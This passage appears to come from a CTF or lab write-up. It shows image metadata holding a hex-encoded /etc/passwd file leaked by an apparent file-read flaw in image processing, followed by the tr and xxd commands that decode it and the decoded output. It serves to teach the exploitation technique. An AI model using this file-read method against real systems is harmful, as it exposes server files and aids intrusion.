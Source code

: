     Raw Profile Type                : ..    1437.726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d.6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f.6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e.2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269.6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f.62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d.65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a.2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a.783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f.6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372.2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73.706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31.303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f.6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573.722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d.646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b.75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f.7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69.7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67.696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73.62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d.5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e.6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334.3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e.2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374.656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72.6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65.6e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e.0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052.65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f.6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e65786973.74656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d74696d6573.796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69.7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c.6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d.652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78.3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f.7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f.737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938.3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a.
    Warning                         : [minor] Text/EXIF chunk(s) found after PNG IDAT (may be ignored by some readers)
    Datecreate                      : 2023-10-10T14:53:06+00:00
    Datemodify                      : 2023-10-10T14:53:06+00:00
    Datetimestamp                   : 2023-10-10T14:53:06+00:00
    Image Size                      : 960x540
    Megapixels                      : 0.518

The contents of /etc/passwd are hex encoded in the `Raw Profile Type` field. Formatting them and doing a hex decode with `xxd`, we can reveal the contents:

    cat etcpasswd.txt | tr '.' '\n' > etcpasswd-format.txt
    xxd -r -p etcpasswd-format.txt

    >>

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin